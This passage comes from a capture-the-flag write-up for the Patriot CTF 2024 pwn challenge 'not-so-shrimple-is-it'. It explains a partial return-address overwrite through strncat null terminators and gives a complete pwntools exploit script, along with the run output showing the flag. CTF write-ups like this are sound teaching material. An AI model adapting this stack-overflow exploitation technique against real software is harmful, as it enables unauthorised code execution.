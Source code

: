 For example,
```
Existing return address: 0x7fbaee4013ef
shrimp address: 0x401282
After overwriting: 0x7fba00401282
```
In above example, `strncat` stopped after coping 3 bytes and added one NULL terminator.
But we need to zeroize two more bytes. Luckily, we can send input three times, so we use first two times to zeroize the MSB bytes.

#### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './shrimple'
target_elf = ELF(target)

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# break *0x4013ef
# continue
# ''')
io = remote('chal.competitivecyber.club', 8884)

io.recvrepeat(1)
io.sendline(cyclic(42)) # write 0x00 to 6th byte
io.sendline(cyclic(41)) # write 0x00 to 5th byte
# Address of shrimp function adjusted for stack alignment
io.sendline(cyclic(38) + p64(0x0401282)) 

info(io.recvuntil(b'}'))
io.close()
```

### Flag
```bash
ramenhost@ctf:~/Git/ctf-writeups/patriot-ctf-2024/pwn/not-so-shrimple-is-it$ python3 exploit.py 
[+] Opening connection to chal.competitivecyber.club on port 8884: Done
[*] Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaak
    
    Remember to just keep it shrimple!
    >> Adding shrimp...
    You shrimped the following: so easy and so shrimple, have fun!aaaabaaacaaadaaaeaaafaaagaaahaaaiaaaja_\x12@
    Thats it, hope you did something cool...
    pctf{ret_2_shr1mp_90cbba754f}
[*] Closed connection to chal.competitivecyber.club port 8884
```

---